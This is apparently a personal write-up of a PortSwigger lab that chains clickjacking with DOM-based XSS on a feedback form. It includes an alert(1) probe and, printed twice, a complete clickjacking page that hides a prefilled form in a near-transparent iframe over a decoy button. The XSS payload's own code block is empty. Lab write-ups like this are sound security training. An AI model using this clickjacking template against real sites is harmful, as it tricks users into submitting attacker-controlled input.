




### Exploiting clickjacking vulnerability to trigger DOM-based XSS : PRACTITIONER

---

###### Solving this lab from Burp's browser.

> Given credentials `wiener:peter`.

> Heading to the submit feedback button and clickin on it.



> Adding in the name, email, and message the following payload to check if any are vulnerable to XSS.

```HTML
<script> alert(1); </script>
```

> Submitting feedback, we get nothing.
> Opening the request sent via BURPSUITE PROXY HTTP history.



> We see that the tags are url encoded.
> Trying another technique, placing this payload in the name parameter.

```HTML

```

> After submitting feedback, we get the alert pop-up.
> If we hadn't, we wouldve tried the other input fields.



> Now that we have an XSS vulnerability, we can try to craft a clickjack payload.
> Since this request to submit feedback is a `POST` request, we need to check if we can prefill the `name` input field, and then bait the user into clicking the submit feedback with the prepopulated XSS payload.
> Similar to [[Portswigger/Clickjacking/Lab 2|Lab 2]], we prefill the forms of the `/feedback` page by simply adding them as query parameters.

```HTML
<head> 
	<style> 
		#target_website { 
			position:relative; 
			width:600px; 
			height:1200px; 
			opacity:0.00001; 
			z-index:2; 
		} 
		#decoy_website { 
			position:absolute; 
			top:800px; 
			left:100px; 
			z-index:1; 
		} 
	</style> 
</head>
<body> 
	<div id="decoy_website"> click </div> 
	<iframe id="target_website" src="https://0aa1002604bc5bfd8123b16a009000f6.web-security-academy.net/feedback?name=&email=mins@mins.com&subject=mins&message=mins"> </iframe> 
</body>
```
> We added all the parameters, and got their names from the `POST` request to `/feedback` we sent before.
> Change the positioning of the `top` and `left` in `#decoy_website` so that the `click` text is right on top of the submit feedback button.
> To do that, let the opacity be `0.1` for now, and then once they match, we make it transparent `0.00001`.

> Through the exploit server, store and view the exploit to test the payload.



> The correct positions for the click text to be on top of the button is below, and the opacity is changed to transparent for the attack.

```HTML
<head> 
	<style> 
		#target_website { 
			position:relative; 
			width:600px; 
			height:1200px; 
			opacity:0.00001; 
			z-index:2; 
		} 
		#decoy_website { 
			position:absolute; 
			top:800px; 
			left:100px; 
			z-index:1; 
		} 
	</style> 
</head>
<body> 
	<div id="decoy_website"> click </div> 
	<iframe id="target_website" src="https://0aa1002604bc5bfd8123b16a009000f6.web-security-academy.net/feedback?name=&email=mins@mins.com&subject=mins&message=mins"> </iframe> 
</body>
```

> To confirm, the mouse is supposed to change to the pointer as it goes on top of the `click` text.
> Delivering the exploit to victim completes the lab.

---
